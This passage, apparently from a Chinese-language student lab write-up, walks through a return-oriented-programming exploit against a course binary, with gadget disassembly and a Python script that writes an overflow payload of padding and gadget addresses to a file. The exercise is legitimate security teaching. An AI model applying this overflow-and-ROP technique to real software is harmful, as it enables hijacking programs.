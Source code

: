 ​	`jmp_x`函数：跳转到存储在 `rax` 中的地址。

```asm
0000000000401334 <jmp_xs>:
  401334:	f3 0f 1e fa          	endbr64 
  401338:	55                   	push   %rbp
  401339:	48 89 e5             	mov    %rsp,%rbp
  40133c:	48 8b 05 cd 21 00 00 	mov    0x21cd(%rip),%rax        # 403510 <saved_rsp>
  401343:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401347:	48 83 45 f8 10       	addq   $0x10,-0x8(%rbp)
  40134c:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  401350:	ff e0                	jmp    *%rax
  401352:	90                   	nop
  401353:	5d                   	pop    %rbp
  401354:	c3                   	ret   
```

​	`jmp_xs`函数：加载保存的 `rsp`，调整偏移后跳转到新的地址。

​	要输出`114`，也就是要将`114`传入`func1`函数中并运行，可以拆分为几步：使用 `mov_rax` gadget，将 `rdi` 设置为 `0x72`；使用 `mov_rdi` gadget，将 `rax` 的值（即 `0x72`）赋值给 `rdi`；使用 `mov_rax` gadget，将 `rdi` 设置为 `func1` 的地址；使用 `call_rax` gadget，调用存储在 `rax` 中的 `func1` 函数地址。
​	于是，我们可以构建如下的ROP链：

```python
padding = b'A' * 40  # 填充数据的大小，确保覆盖栈上的数据直到返回地址

 
mov_rax = b"\xf1\x12\x40\x00\x00\x00\x00\x00"        # 调用 mov_rax gadget，将 rdi 设置为 0x72
cookie = b"\x72\x00\x00\x00\x00\x00\x00\x00"         # mov_rax 的参数，值 0x72
mov_rdi = b"\xda\x12\x40\x00\x00\x00\x00\x00"        # 调用 mov_rdi gadget，将 rax (0x72) 赋值给 rdi
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # mov_rax 的参数，func1 的地址
call_rax = b"\x08\x13\x40\x00\x00\x00\x00\x00"       # 调用 call_rax gadget，调用 func1(rdi=0x72)


# 构造ROP链
payload = padding  + mov_rax + cookie + mov_rdi + func1_address + call_rax

# 写入payload到文件 
with open("ans3.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans3.txt")
```

​	编译运行可以在gdb中得到输出，~~大功告成！~~

​	告不了一点。

​	在直接运行后，得到的输出是这样的：

![p4](p4.png)
